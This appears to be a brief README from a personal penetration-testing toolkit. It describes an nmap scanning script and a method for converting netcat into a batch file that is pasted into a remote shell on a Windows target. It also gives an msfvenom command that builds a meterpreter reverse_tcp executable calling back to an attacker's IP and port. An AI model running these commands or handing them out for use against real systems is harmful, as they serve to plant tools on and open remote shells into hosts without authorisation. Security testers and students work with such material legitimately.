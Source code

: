 # t0w3ntum

### Files
- nmap.sh - Does a full fast port scan and then individual intense scans on each port

- tools/nc.txt

Useful if you have no other way of copying netcat over to a target windows
host. To use, copy the contents of nc.txt and paste it into the remote shell. 
I use xclip like so. 

	cat nc.txt | xclip -selection clipboard

The file was created with the following method. 

	upx nc.exe
	wine exe2bat.exe nc.exe nc.txt

### Commands

- Generate a meterpreter reverse_tcp shell. 

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
